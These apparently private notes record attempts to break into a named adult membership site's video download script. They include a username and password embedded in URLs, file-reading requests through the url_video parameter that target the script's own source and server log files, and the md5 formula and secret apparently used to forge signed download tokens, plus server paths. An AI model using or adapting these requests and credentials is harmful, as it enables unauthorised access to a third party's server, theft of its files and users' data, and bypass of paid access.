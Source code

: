 # Notes on how to access URLs

# Tricks??
http://cbaier:kn1pers@ddgirls.com/members/scripts/dvd/master/find.php?url_video=/members/scripts/dvd/master/find.php
http://cbaier:kn1pers@ddgirls.com/members/scripts/dvd/master/find.php?url_video=/scripts/dvd/slave/download.php

## Redirects

http://ddgirls.com/members/scripts/dvd/master/find.php?url_video=/members/scripts/dvd/master/find.php
http://ddg3.ddgirls.com/scripts/dvd/slave/download.php?username=cbaier&timestamp=1142931241&site=ddgirls&user_downloads=1&auth=2152f5826de9bd0d0b6b1490cac664c0&url_video=%2Fmembers%2Fscripts%2Fdvd%2Fmaster%2Ffind.php

## Log files

/logs/sites/ddgirls.com/dvd/master/2006_03/20/master
/logs/sites/ddgirls.com/dvd/master/2006_03/20/USERNAME

## Requests

http://ddg3.ddgirls.com/scripts/dvd/slave/download.php?username=clover&timestamp=1142931241&site=ddgirls&user_downloads=1&auth=d3e70e7a4370d1d9d44a978343e2e270&url_video=%2Fmembers%2Fscripts%2Fdvd%2Fmaster%2Ffind.php
  $md5 = md5($username . $timestamp . $site . $url_video . $downloads . $conf['secret']);
'd9453a75555fd89a12dba80ccadae906'

http://ddg3.ddgirls.com/scripts/dvd/slave/download.php?username=clover&timestamp=1142996548&site=ddgirls&user_downloads=1&auth=2152f5826de9bd0d0b6b1490cac664c0&url_video=%2Flogs%2Fsites%2Fddgirls.com%2Fdvd%2Fmaster%2F2006_03%2F21%2Fmaster
md5(): clover1142996548ddgirls%2Flogs%2Fsites%2Fddgirls.com%2Fdvd%2Fmaster%2F2006_03%2F21%2Fmaster1d9453a75555fd89a12dba80ccadae906

d3e70e7a4370d1d9d44a978343e2e270

/web/sites/ddgirls.com/public_html/scripts/dvd/slave/download.php

## server responses saved to /master and /slave folders
